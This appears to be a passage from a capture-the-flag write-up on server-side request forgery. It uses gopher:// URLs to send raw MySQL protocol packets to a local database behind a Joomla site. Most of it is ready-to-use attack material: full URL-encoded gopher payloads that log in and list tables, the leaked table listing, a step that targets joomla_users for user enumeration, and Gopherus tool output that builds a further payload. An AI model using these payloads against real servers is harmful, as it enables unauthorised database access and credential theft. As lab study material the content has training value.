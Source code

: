 ```bash
gopher://127.0.0.1:3306/_%a5%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%67%6f%62%6c%69%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%19%00%00%00%03%55%53%45%20%6a%6f%6f%6d%6c%61%3b%20%73%68%6f%77%20%74%61%62%6c%65%73%3b%01%00%00%00%01

output
c 5.5.5-10.3.27-MariaDB-0+deb10u1M0{=]>[1#��-��Ywl9rU3?!)Fgmysql_native_password @ joomlaXdefinformation_schemaTABLE_NAMESTABLE_NAMESTables_in_joomla 

TABLE_NAME!��joomla_action_log_configjoomla_action_logsjoomla_action_logs_extensionsjoomla_action_logs_users joomla_assets joomla_associations joomla_banner_clientsjoomla_banner_tracksjoomla_banners joomla_categoriesjoomla_contact_detailsjoomla_contentjoomla_content_frontpagejoomla_content_ratingjoomla_content_typesjoomla_contentitem_tag_mapjoomla_core_log_searchesjoomla_extensions joomla_fieldsjoomla_fields_categoriesjoomla_fields_groupsjoomla_fields_valuesjoomla_finder_filtersjoomla_finder_linksjoomla_finder_links_terms0joomla_finder_links_terms1joomla_finder_links_terms2joomla_finder_links_terms3 joomla_finder_links_terms4!joomla_finder_links_terms5"joomla_finder_links_terms6#joomla_finder_links_terms7$joomla_finder_links_terms8%joomla_finder_links_terms9&joomla_finder_links_termsa'joomla_finder_links_termsb(joomla_finder_links_termsc)joomla_finder_links_termsd*joomla_finder_links_termse+joomla_finder_links_termsf,joomla_finder_taxonomy-joomla_finder_taxonomy_map.joomla_finder_terms/joomla_finder_terms_common0joomla_finder_tokens1joomla_finder_tokens_aggregate2joomla_finder_types3joomla_languages4joomla_menu5joomla_menu_types6joomla_messages7joomla_messages_cfg8joomla_modules9joomla_modules_menu:joomla_newsfeeds;joomla_overrider<joomla_postinstall_messages=joomla_privacy_consents>joomla_privacy_requests?joomla_redirect_links@joomla_schemasAjoomla_sessionBjoomla_tagsCjoomla_template_stylesDjoomla_ucm_baseEjoomla_ucm_contentFjoomla_ucm_historyGjoomla_update_sitesHjoomla_update_sites_extensionsIjoomla_updatesJjoomla_user_keysKjoomla_user_notesLjoomla_user_profilesMjoomla_user_usergroup_mapNjoomla_usergroups Ojoomla_usersPjoomla_utf8_conversionQjoomla_viewlevelsR�"

important we have to enumerate the joomla_users to enumerate the users for the table joomla 

```
now let's get the columns 

```bash
  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

		author: $_SpyD3r_$

For making it work username should not be password protected!!!

Give MySQL username: goblin
Give query to execute: USE joomla; describe joomla_users;

Your gopher link is ready to do SSRF : 

gopher://127.0.0.1:3306/_%a5%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%67%6f%62%6c%69%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%23%00%00%00%03%55%53%45%20%6a%6f%6f%6d%6c%61%3b%20%64%65%73%63%72%69%62%65%20%6a%6f%6f%6d%6c%61%5f%75%73%65%72%73%3b%01%00%00%00%01

-----------Made-by-SpyD3r-----------

```
